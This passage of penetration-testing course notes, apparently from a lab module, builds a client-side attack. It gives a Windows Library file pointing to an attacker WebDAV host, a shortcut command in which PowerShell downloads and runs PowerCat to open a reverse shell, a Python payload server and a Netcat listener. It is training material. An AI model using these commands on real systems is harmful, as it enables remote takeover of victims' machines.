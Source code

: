 Now, let's copy the Windows Library code we previously used in the _Client-Side Attacks_ Module, paste it into Visual Studio Code, and check that the IP address points to our Kali machine:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Let's save the file and transfer it to **/home/kali/beyond** on our Kali machine
+ Next, we'll create the shortcut file on WINPREP
+ For this, we'll right-click on the Desktop and select _New_ > _Shortcut_ 
+ A victim double-clicking the shortcut file will download PowerCat and create a reverse shell
+ We can enter the following command to achieve this:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
+ Once we enter the command and **install** as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory

Our next step is to serve PowerCat via a Python3 web server
+ Let's copy **powercat.ps1** to **/home/kali/beyond** and serve it on port 8000 as we have specified in the shortcut's PowerShell command
```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Once the Python3 web server is running, we can start a Netcat listener on port 4444 in a new terminal tab to catch the incoming reverse shell from PowerCatL
```
kali@kali:~/beyond$ nc -nvlp 4444      
listening on [any] 4444 ...
```
